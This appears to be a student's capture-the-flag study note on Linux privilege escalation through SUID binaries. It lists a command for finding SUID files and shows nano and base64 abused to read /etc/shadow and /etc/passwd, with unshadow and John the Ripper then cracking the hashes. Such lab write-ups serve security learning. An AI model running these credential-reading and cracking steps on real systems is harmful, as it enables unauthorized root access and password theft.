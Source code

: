 Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. This changes with SUID (Set-user Identification) and SGID (Set-group Identification) that allow files to be executed with the permission level of the file owner or the group owner, respectively.  
 
*Note* 
These type of files have an “**s**” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
	![[Pasted image 20240823202311.png]]
The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. *Nano* is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: 
- reading the `/etc/shadow` file 
- adding our user to `/etc/passwd`.

## reading the `/etc/shadow` file
Running `find / -type f -perm -04000 -ls 2>/dev/null` command we observe that the **nano** text editor has the SUID "**s**" bit set.

Using `nano /etc/shadow` we will read the contents of the /etc/shadow file. Using the unshadow tool we will create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.

```
unshadow passwd.txt shadow.txt > passwords.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

## **Examples**
Q) Which user shares the name of a great comic book writer?
	```base64 /etc/passwd | base64 -decode```
	![[Pasted image 20240823223110.png]]

Q) What is the password of user2?
	```base64 /etc/shadow | base64 -decode```
	`unshadow passwd.txt shadow.txt > passwords.txt`
	`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
	![[Pasted image 20240823223330.png]]

Q)What is the content of the flag3.txt file?
	same trick on encoding and decoding to gain read acces: 
		`base64 /home/ubuntu/flag3.txt | base64 -d`